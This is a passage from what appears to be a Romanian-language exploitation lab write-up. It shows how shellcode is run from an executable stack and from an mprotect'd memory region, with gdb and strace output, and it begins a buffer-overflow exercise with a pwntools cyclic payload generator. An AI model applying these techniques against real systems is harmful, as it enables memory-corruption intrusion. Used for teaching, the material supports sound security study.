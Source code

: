 ```asm
    int 0x80        ; Apelează.
    ret
```

Odată asamblat, codul obiect este folosit pentru popularea celor două fișiere C.

Pentru fișierul `execution_from_stack.c`, este relevantă opțiunea cu care este compilat programul, și anume `-z execstack`. Acesta face ca stiva să fie executabilă (conform cu rezultatul din `gdb`, prezentat mai jos) și ca acel apel către codul salvat în variabila `shellcode` să fie efectuat corect. Este de menționat aici faptul că permisiunile de scriere și execuție nu se găsesc împreună pe sistemele moderne, datorită Data Execution Prevention (abreviat DEP), însă aici marcăm explicit stiva ca fiind executabilă în scop pur didactic, pentru a demonstra execuția *shellcode*-ului.

```bash
$ gdb ./execution_from_stack.elf
[...]
gdb-peda$ break main
[...]
gdb-peda$ run
[...]
gdb-peda$ vmmap
[...]
0xfffdc000 0xffffe000 rwxp  [stack]
```

Pe de altă parte, fișierul `execution_with_mprotect.c` folosește un mecanism diferit. Se mapează în memorie codul mașină (apelurile `mmap` și `memcpy`), iar zona alocată este marcată ca având toate permisiunile (apel către `mprotect`, cu parametrul `PROT_READ | PROT_WRITE | PROT_EXEC`). Acest lucru permite execuția codului în ciuda DEP.

```bash
$ strace ./execution_with_mprotect.elf
[...]
mmap2(NULL, 1, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANONYMOUS, -1, 0) = 0xf7f76000
mprotect(0xf7f76000, 1, PROT_READ|PROT_WRITE|PROT_EXEC) = 0
```

## 3 - Folosirea Apelului de Sistem `execve` în *Shellcode* 💁

Analizând într-un dezasamblor (eventual și decompilator), deducem faptul că programul ia ca argumente două valori: numele unui fișier, al cărui conținut îl citește într-un *buffer*, și numărul de paragrafe pe care textul trebuie să îl atingă sau depășească. Din cauza lungimii fixe a *buffer*-ului, programul este vulnerabil la o suprascriere a acestuia.

Putem genera un fișier cu o lungime care să o depășească pe cea a *buffer*-ului (1100 de caractere sunt suficiente) din interpretorul în linie de comandă a Python 3.

```python
from pwnlib.util.cyclic import *
generator = cyclic_gen()
garbage_payload = generator.get(1100)
open("payload.bin", "wb").write(garbage_payload)
```
